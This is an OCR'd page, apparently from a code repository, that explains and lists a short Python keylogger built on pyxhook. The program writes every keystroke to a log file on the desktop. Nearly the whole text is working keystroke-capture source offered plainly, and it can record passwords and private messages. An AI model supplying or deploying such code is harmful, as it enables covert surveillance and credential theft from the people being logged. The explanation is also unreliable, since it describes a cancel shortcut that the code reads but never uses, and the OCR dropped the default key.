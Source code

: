 This code is a Python program that uses the pyxhook library to log all keyboard events to a file. The program takes three environment variables:

pylogger_file: The path to the log file. Defaults to ~/Desktop/file.log.
pylogger_cancel: The keyboard shortcut to cancel logging. Defaults to .
pylogger_clean: If set, the log file will be cleared before logging begins.
The program works by creating a HookManager object and setting its KeyDown event handler to the OnKeyPress function. The OnKeyPress function writes the key that was pressed to the log file. The HookManager object is then hooked into the keyboard and the program begins listening for events. The program will continue listening for events until it is interrupted by a KeyboardInterrupt or an Exception is raised. If an Exception is raised, the program will write an error message to the log file and exit.

Here is a breakdown of the code:

import os
import pyxhook

# Get the environment variables
log_file = os.environ.get('pylogger_file', os.path.expanduser('~/Desktop/file.log'))
cancel_key = ord(os.environ.get('pylogger_cancel', '`')[0])

# If the `pylogger_clean` environment variable is set, clear the log file
if os.environ.get('pylogger_clean', None) is not None:
    try:
        os.remove(log_file)
    except EnvironmentError:
        pass

# Define the OnKeyPress function
def OnKeyPress(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.Key))

# Create a HookManager object
new_hook = pyxhook.HookManager()

# Set the KeyDown event handler
new_hook.KeyDown = OnKeyPress

# Hook into the keyboard
new_hook.HookKeyboard()

# Start listening for events
try:
    new_hook.start()
except KeyboardInterrupt:
    pass
except Exception as ex:
    msg = 'Error while catching events:\n {}'.format(ex)
    pyxhook.print_err(msg)
    with open(log_file, 'a') as f:
        f.write('\n{}'.format(msg))
